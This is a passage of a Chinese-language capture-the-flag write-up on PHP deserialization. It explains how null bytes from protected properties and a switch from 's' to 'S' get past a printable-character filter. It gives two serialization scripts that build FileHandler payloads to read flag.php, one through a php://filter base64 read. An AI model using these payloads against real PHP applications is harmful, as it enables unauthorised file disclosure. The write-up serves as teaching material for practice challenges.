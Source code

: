        op=2，执行read操作

        ```php
        function is_valid($s) {
            for($i = 0; $i < strlen($s); $i++)
                if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
                    return false;
            return true;
        }
        ```

       php序列化的时候,对于private和protected类型的变量会引入不可见字符，private会引入两个`\x00`(其ascii码为0，url编码为`%00`)；protected变量会引入`\x00*\x00` (三个字符)

       绕过`is_valid()`函数判断，`%00`转化为`\00`;但是在反序列化的时候就会出现问题,所以用"S"替换"s",用来指示`\00`是16进制表示的字符串

       - 序列化代码

       ```php
           <?php

           class FileHandler{
               protected $op = 2;
               protected $filename = "flag.php";
               protected $content = "";
           }
           $a = new FileHandler();
           $b = urlencode(serialize($a));
           $b = str_replace("%00", "\\00", $b);
           $b = str_replace("s", "S", $b);
           echo($b);
           echo("\n");

           ?>
       ```

2. 方法二

   - 利用php7.1+对属性类型不敏感,直接在本地序列化的时候改变属性类型。

    ```php
        <?php

        class FileHandler{
            public $op=2;
            public $filename="php://filter/read=convert.base64-encode/resource=flag.php";
            public $content=2;
        }
            $a = new FileHandler();
            echo serialize($a);
        >?  
    ```

#### 网鼎杯2020 朱雀组 php web(反序列化)

首先bp抓包，发现post传参，测试发现后台用的call_user_func()函数
